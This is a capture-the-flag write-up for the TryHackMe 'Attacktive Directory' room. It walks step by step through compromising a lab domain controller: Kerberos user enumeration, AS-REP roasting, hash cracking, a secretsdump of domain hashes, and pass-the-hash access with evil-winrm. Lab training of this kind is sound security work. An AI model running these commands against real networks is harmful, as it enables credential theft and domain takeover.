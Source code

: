 ```yaml
---
title: "Attacktive Directory"
date: 2022-03-05 08:00:00 -0400
categories: [red-team]
tags: [red-team,thm]
image:
    path: /assets/img/posts/attacktivedirectory/thumbnail.jpg
--- 
```


<style>
  .body {
    display:block;
  }
</style>

## Attacktive Directory

In this room we will be using the following tools to compromise a Domain Controller (DC) in order to gain access to the crown jewels of the environment:

Tools Used: Nmap, Kerbrute, Impacket, Enum4Linux, Hashcat, SMBClient, and Secretsdump

TryHackMe Link: https://tryhackme.com/room/attackivedirectory

We will begin with an nmap scan to see what ports are open on the host and what services they are running.

> nmap -sC -Pn -sV 10.10.121.181
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image1.png"></p>

Next in our steps to enumerating our host for ports 139/445 we will use the tool enum4linux in order to get very useful information on the domain. For this room we will need to locate the domain name from the output of the tool. Part of the output of this command will give you the answer to the NetBIOS-Domain Name which is THM-AD.

> enum4linux -a 10.10.121.181
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image2.png"></p>

The invalid domain that is typically seen in the Active Directory (AD) domain environments is .local. 

Next we will want to enumerate for valid usernames using the tool userenum.  In order to run this tool we will need to install the tool kerbrute.  To do this we will do the following steps which will require that pip3 and git be installed:

> git clone https://github.com/tarlogicsecurity/kerbrute  
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image3.png"></p>

> cd kerbrute 
{: .prompt-tip }
<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image4.png"></p>

> pip3 install -r requirements
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image5.png"></p>

Using the command python3 kerbrute -h we are able to get all the options that this tool has to offer:

> python3 kerbrute.py
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image6.png"></p>


But first we will need the users and password lists that were provided.  To get these we will use the wget command in order to download both the Users List and the Password List

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image7.png"></p>

Next, the command that will be used to enumerate valid username is userenum, however the tool does user enumeration by default using the following command:

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image8.png"></p>

> python3 kerbrute.py -dc-ip 10.10.7.82 -domain spookysec.local -users userlist.txt
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image9.png"></p>


After running the command you should notice two accounts that are the answer to the next two questions for notable accounts; svc-admin and backup.

The account svc-admin returned “[NOT PREAUTH]” which means we could potentially query a ticket with this account with no password.

In order to request a ticket we will use the impacket tool GetNPUsers.py.  This python 3 file will be located in /usr/share/doc/python3-impacket/examples by default.  The syntax for the command to request the ticket from the AD server is:

> python3 GetNPUsers.py spookysec.local/svc-admin -no-pass -dc-ip 10.10.121.181
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image10.png"></p>


You will want to copy and paste the hash into a file for further reference. When navigating to the Hashcat Examples Wiki we see the the Kerberos hash we captured for svc-admin is Kerberos 5 AS-REP etype 23.

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image11.png"></p>

As shown above in the screenshot from the wiki, the mode that will be used in hashcat is 18200. To crack the password we will use the following command with hashcat:

> hashcat svc-admin-hash.txt -a 0 -m 18200 -O passwordlist.txt –force
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image12.png"></p>

From the output of the hashcat tool we have discovered the the password for the svc-admin account is management2005

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image13.png"></p>

Next we want to enumerate SMB since we noticed that port 139 was open on our original nmap scan of the server.   This can be done by using the tool smbclient and using the option -L to list the shares using the credentials we just cracked.

> smbclient -L \\\\10.10.121.181 -U 'spookysec.local/svc-admin'
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image14.png"></p>

There are a total of 6 remote shares that the server lists.  We will need to connect to each share to see which one(s) we have access to.  For this machine we have access to the backup share where the file backup_credentials.txt is stored.  We will use the get command to pull this file off the smb share.

> smbclient \\\\10.10.121.181\\backup -U 'spookysec.local/svc-admin'v
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image15.png"></p>

When we cat the file we get the contents of the backup_credentials.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image16.png"></p>

To decode this we will use the command line tool to convert from base64 using the following command

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image17.png"></p>

The backup account has AD permission that allows all AD changes to be synced with this user account.  We can use the tool secresdump.py to retrieve all password hashes in the AD forest environment. 

> python3 secretsdump.py -just-dc-ntlm spookysec.local/backup@10.10.121.181
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image18.png"></p>

We were able to dump the credentials of the domain users using the DRSUAPI method.  The NTLM hash of the Administrator account is 0e0363213e37b94221497260b0bcb4fc. In order to use these credentials on the system we can attempt to use Pass the Hash.  This means that instead of authentication with a password we can authenticate with the hash of the password.  We will do this by using the tool Evil-WinRM where the option -H allows us to insert the hash of the administrator account.

> evil-winrm -i 10.10.121.181 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
{: .prompt-tip }

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image19.png"></p>

At this point we fully own this box and have administrator on the DC.  To get the flags for svc-admin, backup, and Administrator use commands within the evil-winrm shell to find them.

The Administrator account will have the file root.txt. 

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image20.png"></p>

The backup account will have the file PrivEsc.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image21.png"></p>

The svc-admin account will have the file user.txt.txt

<p class="body"><img class="body" src="./assets/img/posts/attacktivedirectory/image22.png"></p>

If you have made it this far successfully then congrats you have successfully compromised a Domain Controller (DC) and have the crown jewels of the environment.